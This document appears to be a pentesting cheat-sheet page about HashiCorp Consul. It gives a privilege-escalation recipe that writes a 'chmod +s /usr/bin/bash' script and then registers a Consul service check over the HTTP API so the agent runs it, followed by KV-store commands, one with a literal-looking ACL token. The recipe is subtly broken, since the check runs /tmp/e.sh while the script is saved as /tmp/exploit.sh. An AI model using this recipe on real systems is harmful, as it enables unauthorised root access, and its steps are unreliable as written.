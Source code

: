 ```yaml
---
title: HashiCorp Consul Pentesting
desc: An open-source service networking platform developed by HashiCorp.
tags: [8500, Consul, HashiCorp, PrivEsc, Privilege]
alts: []
render_with_liquid: false
---
```


## Privilege Escalation

If you have the ACL token (xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxxx),  you may be able to privilege escalation.  
First, create a script which changes the permission of ‘bash’.

```sh
echo 'chmod +s /usr/bin/bash' > /tmp/exploit.sh
```

Then curl.

```sh
curl --header "X-Consul-Token: <ACL-TOKEN>" --request PUT -d '{"ID": "test", "Name": "test", "Address": "127.0.0.1", "Port": 80, "check": {"Args": ["/usr/bin/bash", "/tmp/e.sh"], "interval": "10s", "timeout": "1s"}}' http://127.0.0.1:8500/v1/agent/service/register
```

<br />

## KV (Key/Value) Store

```sh
# Put
consul kv put --token <ACL-TOKEN> key value
consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 path/to/store data
```
